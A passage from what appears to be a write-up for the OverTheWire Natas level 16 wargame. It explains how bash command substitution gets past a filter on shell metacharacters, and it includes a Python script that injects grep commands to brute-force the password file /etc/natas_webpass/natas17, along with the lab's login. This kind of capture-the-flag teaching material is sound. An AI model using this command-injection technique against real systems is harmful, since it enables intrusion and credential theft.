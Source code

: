 ```php
}
?>
```

They are using a [regex](https://en.wikipedia.org/wiki/Regular_expression) to filter out strings.

*For the readers who don't know what regexes are, I highly sugest you read the above link and research on the topic, it will surely come in handy at some point in your life!*

The regex (```[;|&\`\'"]```) filters out the following characters:

- ; - semi-colon
- | - pipe
- & - ampersand
- ` - backtick
- ' - quote
- " - double-quote

So we can't really escape the command and do whatever we want, what should we do?

Bash [command substituion](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) to the rescue!

The bash documentation states:

*Command substitution allows the output of a command to replace the command itself.*

How is this useful you ask? We can run a command before `grep` runs!

This means we can pick a unique word from the list (which we can see using `.*`, more regex magic!),
run a command substitution and get some output, or not!

For example, the query command is:

```bash
grep -i "some key" dictionary.txt
```

If we use command substitution we can do the following:

```bash
grep -i "weird word ${grep "password character" /etc/natas_webpass/natas17}" dictionary.txt
```

If the substitution works it will return text, appending it to `weird word`, making it not match any text!
we just need to watch out for empty results to know whether the character belongs in the password or not.

Since we've covered brute force attacks, I'll just show the code. 
The idea is the same as last time, the script just needs a bit of tweaking for the new "query".

```py
import string
import requests

url = "http://natas16.natas.labs.overthewire.org/index.php?debug&needle="
password = ""
candidates = f"{string.ascii_letters}{string.digits}"

query = "acknowledgements$(grep ^{} /etc/natas_webpass/natas17)"
for _ in range(32):
    for c in candidates:
        resp = requests.get(
            url + query.format(password + c),
            auth=("natas16", "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"),
        )
        if "acknowledgements" not in resp.text:
            password += c
            print(password)
            break
```